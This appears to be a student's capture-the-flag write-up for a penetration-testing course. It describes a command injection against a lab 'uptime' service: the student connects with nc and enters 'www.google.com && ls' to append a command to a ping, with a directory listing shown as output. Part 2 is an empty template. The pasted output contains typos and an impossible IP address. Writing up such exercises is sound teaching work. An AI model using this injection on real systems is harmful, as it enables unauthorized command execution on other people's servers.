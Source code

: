 Writeup 3 - Pentesting I
======

Name: Noah Bathras
Section: 0101

I pledge on my honor that I havie not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement of honor pledge: Noah Bathras

## Assignment 4 Writeup

### Part 1 (45 pts)
The flag I found was: CMSC389R-{p1ng_as_a_$erv1c3}
The way I obtained the flag was through command line injection, which is an attack in which the goal is execution of arbitrary commands on teh host operating system via a vulnerable application.  In this case the vulnerable application was Cornerstone Airlines uptime system.
Before I could start the attack I ran the command:

`nc cornerstoneairlines.co 45` 

Which connected me to the uptime application.

I was then able to run the command:

`www.google.com && ls` 

This command assumes that uptime is just taking whatever is enetered into the prompt and adding that to the end of a ping command.  Because this was the case, you can use the && command to string multiple commands together.  In this case I ran both the ping command and the ls command which returned:

`PING wwww.google.com (216.58.204.100) 56 (84) bytes of data. 64 bytes from par10s28-in-f100.net (2167.48.204.100): ucmp_seq=1 ttl=53 time= 77.4 ms 64 bytes from par10s28-in-f100.1e100.net (216.58.204.100): icmp_seq=2 ttl=53 time=77.0 ms --- www.google.com ping statistic --- 2 packets transmitted, 2 received, 0% packet losss, time 1000 ms rtt min/avg/max/mdev = 77.066/77.273/77.480/0.207 ms bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var` 

Which once you strip out the output from the ping command, represents the contents of the home directory of the server:

`bin boot dev etc  homelib lib64 media mnt opt proc root run sbin srv sys tmp usr var` 


### Part 2 (55 pts)
*Put your writeup >= 200 words here in response to part 2 prompt. Your code for part 2 should be copied into a file in the /writeup directory and pushed there as well*

